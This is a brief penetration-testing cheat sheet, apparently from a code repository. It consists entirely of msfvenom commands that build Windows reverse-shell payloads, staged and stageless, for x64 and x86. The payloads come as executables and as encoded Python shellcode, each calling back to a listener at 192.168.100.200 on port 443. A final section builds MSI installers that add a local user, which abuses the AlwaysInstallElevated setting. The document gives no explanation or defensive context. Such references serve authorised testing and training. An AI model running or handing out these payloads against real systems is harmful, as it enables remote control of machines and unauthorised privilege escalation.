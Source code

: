 # Reverse
## Stageless 
### (x64)
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.200 LPORT=443 -f exe -o reverse_443.exe
```

### (x86)
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=192.168.100.200 LPORT=443 -f exe -o reverse_443.exe
```

### Shellcode x64 (Python)
```bash
msfvenom --platform windows -p windows/x64/shell_reverse_tcp -e x86/alpha_mixed -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -f python LHOST=192.168.100.200 LPORT=443
```

### Shellcode x86 (Python)
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp -e x86/alpha_mixed -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -f python LHOST=192.168.100.200 LPORT=443
```


## Staged

### (x64)
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.100.200 LPORT=443 -f exe -o reverse_443.exe
```

### (x86)
```bash
msfvenom -a x86 -p windows/shell/reverse_tcp LHOST=192.168.100.200 LPORT=443 -f exe -o reverse_443.exe
```

### Shellcode x64 (Python)
```bash
msfvenom --platform windows -p windows/x64/shell/reverse_tcp -e x86/alpha_mixed -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -f python LHOST=192.168.100.200 LPORT=443
```

### Shellcode x86 (Python)
```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp -e x86/alpha_mixed -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -f python LHOST=192.168.100.200 LPORT=443
```

# AlwaysInstallElevated

```bash
msfvenom -p windows/adduser USER=username PASS=password -f msi-nouac -o install.msi #No uac format
```

```bash
msfvenom -p windows/adduser USER=username PASS=password -f msi -o install.msi #Using the msiexec the uac wont be prompted
```
